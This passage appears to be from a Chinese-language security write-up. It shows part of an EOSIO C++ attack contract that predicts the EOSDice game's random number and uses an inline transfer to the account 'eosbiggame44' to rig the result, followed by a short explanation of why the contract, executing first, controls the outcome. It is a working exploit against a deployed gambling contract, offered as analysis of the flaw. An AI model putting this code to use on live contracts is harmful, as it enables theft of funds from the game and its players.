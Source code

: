 ```c++
            std::string memo = "noneage";
            print("[ATTACK REVEAL2] current_time => ", current_time(), "\n");
        
            for(int i=0;i<=100;i++)
            {
                uint8_t r = random(_self, 87, i);
                if((uint64_t)r < 6)
                {
                    print("[PREDICT RANDOM] random = ", (uint64_t)r, "\n");
                    if(i > 0)
                    {
                        action(permission_level(_self, N(active)),
                            N(eosio.token),
                            N(transfer),
                            std::make_tuple(_self, N(eosbiggame44), asset(i, EOS_SYMBOL), memo))
                        .send();
                    }
                    break;
                }
            } 
        }   
};

#define EOSIO_ABI_EX( TYPE, MEMBERS ) \
extern "C" { \
   void apply( uint64_t receiver, uint64_t code, uint64_t action ) { \
      auto self = receiver; \
      if( code == self || code == N(eosio.token)) { \
         if( action == N(transfer)){ \
                eosio_assert( code == N(eosio.token), "Must transfer EOS"); \
         } \
         TYPE thiscontract( self ); \
         switch( action ) { \
            EOSIO_API( TYPE, MEMBERS ) \
         } \
         /* does not allow destructor of thiscontract to run: eosio_exit(0); */ \
      } \
   } \
}

EOSIO_ABI_EX( attack,
        (transfer)(reveal1)(reveal2)
)
```

在这个攻击合约里，我们模仿了`EOSDice`同样进行了两次`defer action`。在第二次`defer action`中，我们计算出随机数小于6的情况下，需要的总余额比原先的增加多少，然后利用一个`inline action`向`eosbiggame44`账户转账，因为攻击合约先于`EOSDice`官方合约执行，所以最终控制了`EOSDice`的随机数结果。


### 测试流程

